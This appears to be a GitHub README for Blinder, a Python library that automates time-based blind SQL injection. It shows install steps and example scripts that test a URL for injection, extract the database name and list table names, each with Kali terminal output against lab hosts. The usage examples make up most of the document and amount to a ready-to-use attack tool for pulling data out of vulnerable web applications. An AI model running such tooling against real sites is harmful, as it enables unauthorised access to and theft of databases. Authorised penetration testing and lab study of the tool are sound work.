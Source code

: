 # Blinder

Blidner is a small python library to automate time-based blind SQL injection by using a pre defined queries as a functions to automate a rapid PoC development.

# Installation

You can install Blinder using the following command:

`pip install blinder`

Or by downloading the source and importing it manually to your project.

# Usage

To use blinder you need to import `Blinder` module then start using the main functions of Blinder.

You can use Blinder "with the current version" to do the following:

* Check for time based injection.
* Get database name.
* Get tables names.

**You can check for injection in a URL using the following code:

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://sqli-lab/sql_injection/index.php?search=3",
    sleep=1
 )

print blind.check_injection()

```

The execution result will be:

```
root@kali:~/Desktop# python check.py 
True
root@kali:~/Desktop# 
```
**You can Get database name using the following code:

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://sqli-lab/sql_injection/index.php?search=3",
    sleep=1
 )

print "Database name is : %s " % blind.get_database()

```

And the results will be:

```
root@kali:~/Desktop# python get-database.py 
Database name is : db1 
root@kali:~/Desktop# 
```

**To get tables names you can use the following code:

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://192.168.1.18/sql_injection/index.php?search=3",
    sleep=1
 )

tables = blind.get_tables()

for table in tables:
    print table

```
And the results will be:

```
root@kali:~/Desktop# python get-tables.py 
blogs
notes
root@kali:~/Desktop# 
```
